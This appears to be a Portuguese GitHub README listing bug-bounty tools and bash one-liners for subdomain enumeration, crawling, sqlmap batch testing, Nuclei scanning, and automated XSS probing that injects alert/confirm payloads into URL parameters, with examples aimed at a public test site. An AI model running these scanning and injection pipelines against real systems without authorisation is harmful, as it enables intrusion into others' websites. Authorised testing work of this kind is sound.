 ## Ferramentas necessárias

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx-toolkit -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;
```

###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | anew subfinder;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
echo $(cat url) | waybackurls | uro | gf xss | dalfox pipe --skipe-bav | anew dalfox

sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=

sudo dalfox url https://testphp.vulnweb.com
```

###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```


###  Xss1. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```



###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```


